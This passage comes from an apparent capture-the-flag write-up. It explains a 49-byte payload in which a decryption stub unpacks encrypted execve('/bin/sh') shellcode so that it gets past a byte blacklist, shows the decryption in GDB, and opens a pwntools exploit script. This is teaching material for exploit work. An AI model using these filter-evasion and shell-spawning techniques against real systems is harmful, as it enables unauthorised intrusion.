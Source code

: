 Our final payload structure is:
1. Decryption stub (25 bytes)
2. Encrypted shellcode (24 bytes)

Total payload size: 49 bytes (well within the 60-byte limit)

![](/posts/img/finalpayloadcheck.png)

Our stub also seems to be clean from any blacklisted bytes, so we're gaming.

# Executing in GDB

To demonstrate the exploit I ran the final payload and set a breakpoint in GDB to observe the decryption process:

![](/posts/img/gdbbeforedec.png)

In this current state, we have reached the decryption stub, and the encrypted shellcode is still gibberish.

After stepping though the decryption stub, we can see the shellcode decrypted in memory:

![](/posts/img/gdbafterdec.png)

Now we see the original shellcode which just puts `0x3b` (the syscall number for `execve`) in `rax`, sets up the arguments for `execve` (the string `"/bin/sh"`) in the appropriate registers, and finally calls the syscall to spawn a shell.

# Conclusion

This challenge was a cool introduction to payload encryption techniques and PIC shellcode to evade simple detection mechanisms.

# Full exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or 'execute', checksec=False)
context.terminal = ["kitty"]

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b * main+174
'''.format(**locals())

blacklist = b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67"

def print_blacklisted(shellcode, blacklist):
    for i in range(len(shellcode)):
        if shellcode[i] in blacklist:
            print(f"\033[31;1;4m{hex(shellcode[i])}\033[0m", end=" ")
        else:
            print(f"{hex(shellcode[i])}", end=" ")

    print()
```
